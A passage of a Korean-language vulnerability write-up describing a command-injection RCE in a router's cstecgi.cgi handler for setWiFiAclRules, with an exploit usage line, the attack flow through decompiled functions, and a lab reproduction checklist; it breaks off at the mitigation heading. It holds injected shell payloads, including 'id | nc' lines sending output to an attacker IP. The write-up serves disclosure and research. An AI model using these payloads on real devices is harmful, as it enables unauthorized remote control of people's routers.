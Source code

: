 **사용법**:
```bash
chmod +x exploit.py
./exploit.py 192.168.1.1 'id | nc 192.168.0.26 4444'
```

### 4.2 공격 흐름 요약

#### 4.2.1 [클라이언트] 페이로드 생성 및 전송

1. **페이로드 생성**: 
   - `topicurl`: `"setWiFiAclRules"` 지정
   - `desc`: `"$(id | tee /tmp/pwned.txt)"` - 쉘 명령어 치환 문법 사용
   - 기타 필수 파라미터: `mac`, `addEffect`, `wifiIdx`

2. **요청 전송**:
   ```
   POST /cgi-bin/cstecgi.cgi
   Content-Type: application/json
   ```

#### 4.2.2 [서버] 요청 수신 및 컨트롤러 진입

1. `/usr/sbin/shttpd`가 가상 주소 `/cgi-bin/cstecgi.cgi`로의 POST 요청 수신
2. 내부 API 처리 로직 실행 시작

#### 4.2.3 [서버] 요청 분배 (Dispatching)

1. `sub_40A290` 함수 진입
2. `sub_40BF40` 호출하여 `topicurl("setWiFiAclRules")` 핸들러 검색
3. `unk_450768` 테이블에서 매칭되는 핸들러 정보 반환

#### 4.2.4 [서버] 취약 함수 실행 및 RCE 발생

1. 핸들러 구조체에서 함수 포인터 추출
2. `setWiFiAclRules` 실제 로직 함수 호출
3. **`desc` 파라미터 검증 없이 시스템 명령어로 사용**
4. `$(id | nc <attacker_ip> 4444)` 쉘 실행 → **RCE 성공**

---

## 5. 재현 체크리스트

- [ ] 펌웨어 추출 및 SquashFS 루트 준비
- [ ] `qemu-aarch64` 주입 완료
- [ ] `/dev`, `/proc`, `/sys` 마운트 완료
- [ ] chroot 진입 및 `ubusd`, `shttpd` 실행
- [ ] 대상 펌웨어가 **패치 이전**(V9.4.0cu.1458_B20250708 이하)임 확인
- [ ] 네트워크 격리 환경(로컬 랩) 구성
- [ ] PoC 테스트 수행 및 `/tmp/pwned.txt` 확인

---

## 6. 완화 및 패치 요약
